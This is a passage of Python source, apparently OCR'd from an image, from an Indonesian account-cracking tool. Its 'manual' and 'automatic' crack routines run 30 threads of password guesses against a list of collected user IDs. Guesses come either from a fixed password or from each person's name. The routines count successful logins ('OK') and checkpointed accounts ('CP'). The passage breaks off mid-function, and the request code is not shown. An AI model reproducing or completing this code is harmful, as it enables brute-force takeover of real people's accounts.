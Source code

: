 	###----------[ CRACK MANUAL ]---------- ###

	def manual(self,pw):

		global prog,des

		prog = Progress(SpinnerColumn('clock'),TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:

			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					user = data.split("<=>")[0]

					nama = data.split("<=>")[1]

					pwx = pw

					fall.submit(self.metode_api,user,pwx)

		prints(Panel(f"""{P2}berhasil crack total {len(tampung)} id, dengan hasil OK : {H2}{len(self.ok)}{P2} CP : {K2}{len(self.cp)}{P2}""",width=80,padding=(0,8),style=f"{color_panel}"))

		sys.exit()

						

	###----------[ CRACK OTOMATIS ]---------- ###

	def otomatis(self):

		global prog,des

		prog = Progress(TextColumn('{task.description}'),BarColumn(),TextColumn('{task.percentage:.0f}%'),TimeElapsedColumn())

		des = prog.add_task('',total=len(tampung))

		with prog:

			with ThreadPoolExecutor(max_workers=30) as fall:

				self.simpan_hasil()

				for data in tampung:

					try:

						pwx = []

						user = data.split("<=>")[0]

						nama = data.split("<=>")[1]

						depan = nama.split(" ")[0]

						if len(nama)<=5:

